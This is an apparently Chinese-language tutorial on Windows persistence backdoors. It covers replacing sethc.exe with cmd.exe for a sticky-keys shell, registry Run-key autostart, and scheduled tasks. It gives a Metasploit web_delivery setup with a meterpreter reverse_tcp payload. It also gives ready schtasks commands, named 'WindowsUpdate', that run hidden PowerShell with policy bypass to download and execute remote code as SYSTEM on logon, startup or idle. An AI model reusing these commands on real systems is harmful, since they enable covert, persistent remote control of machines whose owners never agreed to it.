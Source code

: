 后门是一个运行在目标主机上的隐藏进程。因为后门可能允许一个普通的，未经授权的用户控制计算机，所以攻击者进场使用后门来控制服务器（这比一般的攻击手段更加的隐蔽）。攻击者在提升权限之后，往往会通过简历后门来维持对目标主机的控制权限。这样一来，及时修复了被攻击者利用的系统漏洞，攻击者还可以通过后门继续控制目标系统。

# 操作系统后门

## 粘滞键后门

在Windows主机上连续按五次`shift`键，就可以调用粘滞键，观察他的原理其实就是调用`C:\Windows\system32\sethc.exe`，那么当我们使用恶意的exe文件，同名替换`sethc.exe`就可以当连续按五次shift键，触发我们的恶意文件。

比如我们将`cmd.exe`替换`sethc.exe`连续按五次`shift`我们就能够获取到一个高权限的`cmd`命令框

## 注册表注入后门

将后门文件或者脚本路径填写到`HKEY_CURRENT_USER\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved\Run`就会在下一次开机后自动运行，从而实现反弹shell 之类的操作

## 计划任务提权

计划任务在`windows 7`及以前版本中使用`at`命令，从`windows 8`开始的操作系统中使用`schtasks`命令调用。计划任务后门分为管理员权限和普通用户权限两种。

计划任务后门基本命令格式如下

- `schtasks /Create /tn Updater /tr notepad.exe /sc hourly /mo 1`
- 该命令表示每小时执行一次`notepad.exe`

使用`metsaploit`的`PowerShell Payload Web Delivery`模块，可以模拟攻击者在目标系统快速建立会话

```sh
use exploit/multi/script/web_delivery
set target 2
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.1.1
set lport 443
set URLPATH /
exploit
```

根据需求创建计划任务

```sh
# 用户登录触发
schtasks /create /tn WindowsUpdate /tr "C:\windows\system32\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.1.1:8080/'''))'" /sc onlogon /ru System
# 系统启动
schtasks /create /tn WindowsUpdate /tr "C:\windows\system32\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.1.1:8080/'''))'" /sc onstart /ru System
# 系统空闲
schtasks /create /tn WindowsUpdate /tr "C:\windows\system32\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.1.1:8080/'''))'" /sc onidle /i 1
```
